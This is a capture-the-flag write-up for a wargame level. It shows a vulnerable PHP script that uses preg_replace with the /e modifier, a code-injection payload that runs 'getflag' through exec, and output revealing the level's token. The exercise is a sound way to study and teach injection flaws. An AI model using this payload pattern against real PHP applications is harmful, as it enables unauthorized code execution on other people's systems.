 # Level 06

```bash
cat level06.php

#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

The script goes through an input file and makes some character replacements. It appears to use the 'e' regex modifier in x() along with a wildcard. This modifier allows the [use of php code](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) within the argument.

By matching the `preg_replace pattern [x .*]`, we can inject our own code to the script.

```bash
echo "[x {${exec(getflag)}}]" > /tmp/inj
```

```bash
./level06 /tmp/inj
# HP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
# PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```